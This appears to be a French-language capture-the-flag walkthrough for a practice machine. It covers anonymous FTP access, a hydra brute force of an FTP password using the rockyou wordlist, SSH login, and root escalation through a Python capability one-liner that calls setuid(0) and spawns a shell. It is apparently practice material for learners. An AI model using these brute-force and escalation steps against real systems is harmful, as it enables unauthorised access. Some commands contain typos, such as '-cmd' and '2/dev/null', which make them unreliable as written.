


Brute-force is one of the methods of password cracking and aims to find the correct answer by systematically trying all possible combinations.  
Recommended for practicing SSH and FTP services, brute-force attacks and privilege escalation techniques.

Outils utilisés:

Etape 1: Enumération 

- Scan Nmap 
Nmap -sC -sV 

On constate qu'on a juste deux ports ouverts, l eftp et le ssh. 
Boom on peu se connecter au service ftp en mode anaonymous. 

- Se connecter au service ftp en mode anonymous 
Username : anonymous 
password : anonymous 

ftp Target_IP 

- Récupérer le fichier readme avec get 
get readme 
Une fois récupéré, lire depuis votre machine locale. 
On peut remarquer un fichier nomer ronal.backups.config . ce qui signifie qu'on a un utilisateur du nom de ronald . 

- Realiser un brute force sur le ftp pour trouver le mot de passe 
On va le faire avec hydra 

Commade : 

hydra -l ronald -P /usr/share/wordlists/rockyou.txt ftp://Target_IP 

Boom on a trouvé le mot de passe de ronald 

- Se connecter au service ssh avec ces creds

- Escalade de privilege 

Etape :

voire s'il est installé : 

whereis getcap 

Boom getcap est installé 

- Enumérer les capabiliés 
/usr/sbin/getcap -r / 2/dev/null 


Intérresant : On a trouvé le python3,9 qui peut nous permet d'élever nos priviledges 

```
python3.9 -cmd 'import os; os.setuid(0); os.system("/bin/sh")'
```
bOOM Nous sommes en mode root 


